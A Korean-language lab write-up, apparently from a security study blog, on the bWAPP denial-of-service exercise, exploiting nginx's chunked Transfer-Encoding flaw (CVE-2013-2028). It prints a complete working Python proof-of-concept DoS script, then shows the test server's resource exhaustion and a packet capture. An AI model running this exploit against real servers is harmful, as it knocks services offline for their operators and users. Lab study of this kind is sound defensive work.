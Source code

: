 ```yaml
---
layout: single
title: (bWAPP)Denial-of-Service (Large Chunk Size)
categories: bwapp
tag: [DoS, xss, bwapp, bee box, session, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 취약점 설명
> DoS는 서비스 거부 공격으로, 대상 시스템에 대한 가용성을 무너뜨리는 공격이다. 대표적으로 대역폭 공격, 리소스 고갈, 프로토콜 공격, 공격자 자원 고갈등이 존재한다.

![그림 1-1](/assets/image/bwapp/Security%20Misconfiguration/Denial-of-Service/image.png)
- 8080/8443 포트로 Nginx 웹 서버가 동작중이며, 해당 웹 서버는 chunked Transfer-Encoding을 통한 DoS 공격에 취약하다고 한다.

```
HTTP Chunked는 request body의 크기를 가변적으로 정할 수 있는 기능이다.
```

해당 bWAPP에서는 타겟 서버의 DoS 공격을 수행하는 악성 스크립트를 제공하고 있다.

```python
# Exploit Title: nginx v1.3.9-1.4.0 DOS POC (CVE-2013-2028)
# Date: 16.05.2013
# Exploit Author: Mert SARICA - mert [ . ] sarica [ @ ] gmail [ . ] com - http://www.mertsarica.com
# Minor customizations by Malik Mesellem (@MME_IT)
# Vendor Homepage: http://nginx.org/
# Software Link: http://nginx.org/download/nginx-1.4.0.tar.gz
# Version: 1.3.9-1.4.0
# Tested on: Kali Linux & Windows XP (nginx v1.4.0)
# CVE : CVE-2013-2028

import httplib
import time
import socket
import sys
import os

# Vars & Defs
debug = 0
dos_packet = 0xFFFFFFFFFFFFFFEC
socket.setdefaulttimeout(1)

packet = 0

def chunk(data, chunk_size):
    chunked = ""
    chunked += "%s\r\n" % (chunk_size)
    chunked += "%s\r\n" % (data)
    chunked += "0\r\n\r\n"
    return chunked

if sys.platform == 'linux-i386' or sys.platform == 'linux2':
        os.system("clear")
elif sys.platform == 'win32':
        os.system("cls")
else:
        os.system("cls")
                
print "======================================================================"
print u"nginx v1.3.9-1.4.0 DOS POC (CVE-2013-2028) [http://www.mertsarica.com]"
print "======================================================================"

if len(sys.argv) < 2:
        print "Usage: python nginx_dos.py [target ip:port]\n"
        print "Example: python nginx_dos.py 127.0.0.1:8080\n"
        sys.exit(1)
else:
    host = sys.argv[1].lower()
        
while packet <= 66:

    body = "beezzzzzzzzzz"
    chunk_size = hex(dos_packet + 1)[3:]
    chunk_size = ("F" + chunk_size[:len(chunk_size)-1]).upper()

    if debug:
        print "data length:", len(body), "chunk size:", chunk_size[:len(chunk_size)]

    try:
        con = httplib.HTTPConnection(host)
        url = "/bWAPP/portal.php"
        con.putrequest('POST', url)
        con.putheader('User-Agent', 'bWAPP')
        con.putheader('Accept', '*/*')
        con.putheader('Transfer-Encoding', 'chunked')
        con.putheader('Content-Type', 'application/x-www-form-urlencoded')
        con.endheaders()
        con.send(chunk(body, chunk_size[:len(chunk_size)]))
    except:
        print "Connection error!"
        sys.exit(1)
        
    try:
        resp = con.getresponse()
        print(resp.status, resp.reason)
    except:
        print "[*] Knock knock, is anybody there ? (" + str(packet) + "/66)"

    packet = packet + 1
    
    con.close()

print "[+] Done!"
```

해당 PoC 코드는 CVE-2013-2028로 명명된 취약점에서 사용되는 공격 코드이다.

![그림 1-2](/assets/image/bwapp/Security%20Misconfiguration/Denial-of-Service/image-1.png)
해당 소스크드를 공격자 Kali에서 파이썬 스크립트로 만들어 실행시키면, 위와 같은
문구가 출력된다.
<br>
사용법은 스크립트 사용시 파라미터로 ip와 port를 넘겨주게 되는데, bWAPP에서는
8080 및 8443포트를 사용하라고 나와있다.

![그림 1-3](/assets/image/bwapp/Security%20Misconfiguration/Denial-of-Service/image-2.png)
- 현재 bWAPP 서버의 CPU 및 MEMORY상태를 보면 아무 이상이 없다.

![그림 1-4](/assets/image/bwapp/Security%20Misconfiguration/Denial-of-Service/image-3.png)
- 필요한 인자를 주고 실행시키면 66번의 패킷을 지속적으로 전송하는 듯 하다.

![그림 1-5](/assets/image/bwapp/Security%20Misconfiguration/Denial-of-Service/image-4.png)
- bWAPP 서버의 CPU 및 MEMORY 또한 비정상적으로 사용되는것을 확인할 수 있다.
- 이를 통해 DoS 공격으로 인한 서버의 가용성을 침해한다.

![그림 1-6](/assets/image/bwapp/Security%20Misconfiguration/Denial-of-Service/image-5.png)
- 와이어샤크로 패킷을 보게되면 HTTP chunked response로 나와있는 걸 볼 수 있다.
- 이러한 공격은 공격자가 대량의 http 요청을 보낼 때, 서버는 요청을 처리하지 않고 리소스를 낭비하게 되므로, 가용성 감소를 통한 서비스 불능 상태로 만든다.